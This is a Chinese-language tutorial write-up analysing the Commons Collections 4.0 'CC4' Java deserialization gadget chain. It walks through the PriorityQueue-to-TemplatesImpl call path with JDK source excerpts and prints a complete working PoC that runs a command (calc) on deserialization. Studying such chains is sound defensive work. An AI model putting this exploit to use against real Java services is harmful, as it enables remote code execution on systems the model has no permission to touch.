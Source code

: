 # 环境搭建

- JDK 1.7
- commons-collections 4.0
- javassist

和CC2的环境一样

```
<dependencies>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.25.0-GA</version>
    </dependency>
</dependencies>
```

# 前置知识

CC4是CC2和CC3的结合,准确的来说,CC4可以说是CC2的改编,两者唯一不同的点就是调用newTransformer方法,CC2是用反射调用的,CC4是和CC3一样用TrAXFilter来调用的

利用链

```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

# 利用链分析

poc如下

```
package CC4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


public class CC4Payload {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classbytes = STU.toBytecode();
        byte[][] targetbytecodes = new byte[][]{classbytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledVlue(templates,"_name","DawnT0wn");
        setFiledVlue(templates,"_class",null);
        setFiledVlue(templates,"_bytecodes",targetbytecodes);

        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };

        ChainedTransformer chain = new ChainedTransformer(transforms);

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        Object queue_array = new Object[]{1,2}; //这里因为调用了ConstantTransformer,所以调用ChainTransfomer的时候可以随便传参数不用像CC2那样传templates

        setFiledVlue(queue,"queue",queue_array);

        setFiledVlue(queue,"size",2);

        setFiledVlue(queue,"comparator",comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC4.bin"));
        os.writeObject(queue);

        ObjectInputStream fos =new ObjectInputStream(new FileInputStream("CC4.bin"));
        fos.readObject();
    }

    public static void setFiledVlue(Object obj,String Filename,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

这条链和CC2大致相同,分析了CC2和CC3这条链就没有什么问题了

首先调用PriorityQueue重写的readObject方法

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
```

跟进heapify

```
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
```

和CC2一样,size需要大于等于2,可以利用add方法,可以利用反射

跟进siftDown

```
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```

comparator不为空的话进入siftDownUsingComparator,继续跟进

![image-20220121192128125](images/1.png)

一直执行到第二个if,这里comparator的值可以通过反射控制,因为分析过CC2,就知道这里可以去调用TransformingComparator的compare方法,从而去触发transform方法

![image-20220121192332035](images/2.png)

到此为止,和CC2的前半截是一样的,唯一不同的是,在CC2中因为要直接调用InvokerTransformer利用反射去触发newTransform方法,所以需要控制参数obj1,然而在这里,是利用熟悉的ChainTransform类的transform挨个去调用ConstantTransformer和InstantiateTransformer的transform方法,ConstantTransformer的transform方法与传入的参数无关，所以这里的obj1可以为任意值

跟进transform方法,

这里就一直调用,ConstantTransformer的transform已经很熟悉了,直接返回一个可控值,主要还是InstantiateTransformer的transform方法,这里其实就是CC3的内容了

![image-20220121192851171](images/3.png)

可以看到和CC3一样通过反射去获取一个构造器,在CC3中我们已经找到了这样一个可用的类TrAXFilter,在

commons-collections 4.0仍然是可用的,通过构造器,iParamTypes和iArgs参数都是可控的

跟进TrAXFilter类构造器

![image-20220121193231105](images/4.png)

又回到了熟悉的调用newTransformer方法,传入的templates参数就是iArgs参数,是TemplatesImpl对象

跟进newTransformer方法

![image-20220121194543034](images/5.png)

跟进getTransletInstance方法

![image-20220121194603942](images/6.png)

接下来的东西就是加载字节码了,在CC2和CC3中已经提到了,都是一样的,

# 漏洞复现

![image-20220121194717498](images/7.png)

命令执行成功